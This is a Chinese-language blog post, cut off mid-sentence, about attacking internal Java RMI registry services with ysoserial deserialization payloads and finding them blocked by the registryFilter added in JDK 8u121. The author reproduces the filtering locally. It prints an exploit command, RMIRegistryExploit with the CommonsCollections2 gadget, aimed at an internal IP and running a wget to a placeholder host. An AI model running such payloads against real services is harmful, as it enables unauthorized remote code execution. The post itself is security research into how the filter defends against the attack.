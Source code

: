 ```yaml
---
layout: post  
title: "一次攻击内网rmi服务的深思"  
date: 2018-09-20
description: "java安全"
tag: java安全
---
```


## 说明

在日常扫描内网服务器的时候发现有几台主机开放了rmi服务，根据以往经验rmi服务存在反序列化漏洞，本以为可以直接拿ysoserial一把梭直接干。

![](http://pic.findbugs.top/18-9-20/41797551.jpg)

java -cp ysoserial.exploit.RMIRegistryExploit 10.9.15.193 9999 CommonsCollections2 "wget http://xxxxx:3344"

以往都成功过，但是这次居然爆出了filter status: REJECTED

![](http://pic.findbugs.top/18-9-20/78251456.jpg)

出现这种情况的原因是[java 8 update 121]之后[RMIRegistryImpl.registryFilter()](http://hg.openjdk.java.net/jdk8u/jdk8u/jdk/file/5534221c23fc/src/share/classes/sun/rmi/registry/RegistryImpl.java#l388) 的限制http://hg.openjdk.java.net/jdk8u/jdk8u/jdk/file/5534221c23fc/src/share/classes/sun/rmi/registry/RegistryImpl.java#l388

可以看到在idk8 update 121之后在registryFilter函数中限制了类型。

![](http://pic.findbugs.top/18-9-20/10387266.jpg)

本地写个rmi注册服务模拟下:

```
public static void main(String[] args) throws RemoteException, AlreadyBoundException, MalformedURLException {
    //System.setProperty("sun.rmi.registry.registryFilter", "java.util.HashMap;");
    //System.setProperty("sun.rmi.registry.registryFilter", "java.util.HashMap;sun.reflect.annotation.**;");
    //System.setProperty("sun.rmi.registry.registryFilter", "java.**;sun.reflect.annotation.**;com.sun.**");
    //System.setProperty("sun.rmi.registry.registryFilter", "org.apache.commons.collections4.comparators.TransformingComparator");
    HelloService helloService = new HelloServiceImpl();
    LocateRegistry.createRegistry(12306);
    Naming.bind("rmi://localhost:12306/helloService", helloService);
    System.out.println("ServerMain provide RPC service now");

}
```

启动之后用java -cp ysoserial.exploit.RMIRegistryExploit 127.0.0.1 12306 CommonsCollections2 "wget http://xxxxx:3344"去攻击发现服务端爆出
